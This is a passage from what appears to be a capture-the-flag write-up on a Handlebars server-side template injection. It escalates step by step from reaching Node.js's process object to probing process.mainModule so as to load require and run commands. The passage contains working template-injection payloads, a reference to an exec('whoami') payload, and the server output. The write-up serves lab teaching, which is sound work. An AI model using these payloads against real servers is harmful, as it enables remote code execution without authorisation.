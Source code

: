 ```
    {{/with}}
  {{/with}}
{{/with}}
```

Notes: As we can see, the key difference between this (the second) payload and the first one lies in the line that pushes ```"return process;"``` instead of ```"return require('child_process').exec('whoami');"```. This change is a step toward escaping the sandbox environment.

The ```process``` object in Node.js is a global object that provides information and control over the current Node.js process. By injecting ```"return process;"```, this payload attempts to gain access to the process object, which can then be used to break out of the template engine's sandbox, potentially giving access to sensitive system-level information or control over the execution environment.

Unlike the first payload, which attempts to directly execute a command (whoami), this modified payload is focused on accessing the process object itself. Once this object is accessed, it can be leveraged for further exploitation, such as spawning a new shell or manipulating the environment.

And now back to the official write-up: *URL encode the payload as shown previously and send it using BurpSuite Repeater. Here is the result:*

```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object process]
```

*The response did not contain an error and we can see the ```[object process]``` has been included. This means that the process object is indeed available.*

*Taking a closer look at the [documentation](https://nodejs.org/api/process.html) of the process object, we see that it has a [mainModule](https://nodejs.org/api/process.html#processmainmodule) property that has been deprecated since version 14.0.0 of Node.js, however, deprecated does not necessarily mean inaccessible. A quick Google search using the keywords "Node.js mainModule" reveals this [blog post](https://www.geeksforgeeks.org/node-js-process-mainmodule-property/) that details the usage of this property.*

*Specifically, it mentions that this property returns an object that contains the reference of main module. Since handlebars is running in a sandboxed environment, we might be able to use the ```mainModule``` property to directly load the main function and since the main function is most probably not sandboxed, load ```require``` from there. Let's modify our payload once more to see if ```mainModule``` is accessible.*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```